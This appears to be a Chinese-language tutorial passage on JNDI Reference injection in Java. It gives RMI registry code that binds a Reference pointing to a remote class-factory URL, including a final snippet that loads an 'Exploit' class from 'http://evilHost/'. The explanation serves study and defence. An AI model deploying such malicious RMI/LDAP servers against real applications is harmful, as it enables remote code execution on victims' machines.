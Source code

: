 ```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.AlreadyBoundException;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class jndi {
    public static void main(String[] args) throws NamingException, RemoteException, AlreadyBoundException {
        String url = "http://127.0.0.1:8080"; 
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("test", "test", url);
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("aa",referenceWrapper);


    }
}
```

这里再调用完 Reference 之后 又在调用 ReferenceWrapper 的时候 将前面的 Reference 对象传进去了 其实故名思意 就是 wrap 包装的意思嘛 在我们 查看到 Reference 的时候 发现并没有是心啊 Remote 接口也没有继承`UnicastRemoteObject`​ 之前在 RMI 中了解过 将类注册到 Registry 的时候需要实现 Remote 和继承`UnicastRemoteObject`​在这里并没有体现 所以需要进行封装

### JNDI Reference 注入

为了在命名服务或者目录服务中绑定 Java 对象 可以使用 Java 序列化来传输对象 但是当 Java 对象较大的时候 不是很好处理 于是 JNDI 就定义了命名应用 (Naming References) 这样对象就可以通过绑定一个 可以被命名管理器解码并解析为原始对象的引用 间接存储在命名或目录服务中

引用由 Reference 类表示 由地址 (RefAddress) 的有序列表和所引用对象的信息组成 而每个地址包含了如何构造对应对象的信息 包括引用对象的 Java 类名 以及用于创建对象的 ObjectFactory 类的名称和位置

Reference 可以使用 ObjectFactory 来构造对象 当使用 lookup 方法查找对象时 Reference 将使用提供的 ObjectFactory 类的加载地址来 加载 ObjectFactory 类 ObjectFactory 类将构造出需要的对象

所谓的 JNDI 注入就是控制 lookup 函数的参数 这样来使客户端访问恶意的 RMI 或者 LDAP 服务来加载恶意的对象 从而执行代码 完成利用

在 JNDI 服务中通过绑定一个外部远程对象让客户端请求 从而使客户端恶意代码执行的方式 就是利用 Reference 类实现的 此类表示对存在于命名/目录系统之外的对象的引用

具体则是指如果远程获取 RMI 服务器上的对象为 Reference 类或者子类时 则可以从其他服务器上加载 class 字节码文件来实例化

常用属性

```plain
className 远程加载时所使用的类名
classFactory 加载的 class 中需要实例化的类的名称
classFactoryLocation 提供 classes 数据的地址可以是 file/ftp/http 等协议
```

比如

```plain
Reference reference = new Reference("Exploit","Exploit","http://evilHost/");
registry.bind("Exploit", new ReferenceWrapper(reference));
```

